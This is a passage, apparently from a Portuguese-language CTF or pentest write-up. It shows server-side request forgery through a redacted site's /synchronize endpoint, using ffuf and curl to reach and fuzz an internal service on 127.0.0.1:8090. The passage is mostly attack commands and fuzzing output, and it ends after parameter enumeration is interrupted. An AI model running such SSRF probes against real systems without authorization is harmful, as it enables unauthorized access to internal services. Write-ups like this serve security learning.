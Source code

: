 ```

 :: Method           : GET
 :: URL              : https://[redacted]/synchronize?url=http://127.0.0.1:8090/FUZZ
 :: Wordlist         : FUZZ: /home/kali/Git/github.com/danielmiessler/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 19
________________________________________________

decode                  [Status: 200, Size: 42, Words: 7, Lines: 2, Duration: 10ms]
:: Progress: [1273833/1273833] :: Job [1/1] :: 3332 req/sec :: Duration: [0:15:23] :: Errors: 39 ::
```

Acessando o path encontrado:

```
$ curl https://[redacted]/synchronize?url=http://127.0.0.1:8090/decode

I'm expecting a get parameter again... ;)
```

Fazendo a enumeração:

```
$ ffuf -u https://[redacted]/synchronize?url=http://127.0.0.1:8090/decode?FUZZ=1 -w ~/Git/github.com/danielmiessler/SecLists/Discovery/Web-Content/burp-parameter-names.txt


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://[redacted]/synchronize?url=http://127.0.0.1:8090/decode?FUZZ=1
 :: Wordlist         : FUZZ: /home/kali/Git/github.com/danielmiessler/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

AssignmentForm          [Status: 200, Size: 51, Words: 8, Lines: 2, Duration: 16ms]
Albania                 [Status: 200, Size: 51, Words: 8, Lines: 2, Duration: 16ms]
ACTION                  [Status: 200, Size: 51, Words: 8, Lines: 2, Duration: 16ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```


[nmap]: https://nmap.org